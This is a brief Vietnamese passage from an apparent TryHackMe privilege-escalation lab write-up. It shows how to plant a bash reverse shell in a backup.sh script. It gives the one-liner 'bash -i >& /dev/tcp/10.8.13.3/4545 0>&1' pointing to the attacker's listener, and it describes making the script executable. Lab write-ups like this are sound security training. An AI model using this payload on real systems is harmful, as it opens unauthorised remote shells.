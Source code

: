 Tìm kiếm payload reverse shell trên github: 

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image108.png?raw=true)

=> Nội dung mới có dạng: ***bash -i >& /dev/tcp/10.0.0.1/4242 0>&1***

Thay IP thành IP và Port thành IP và port của máy tấn công đang lắng nghe, payload trở thành: 

***bash -i >& /dev/tcp/10.8.13.3/4545 0>&1***

Thêm quyền thực thi cho shell backup.sh:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image109.png?raw=true)

Sau đó chờ đợi bên kênh lắng nghe: 

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image110.png?raw=true)
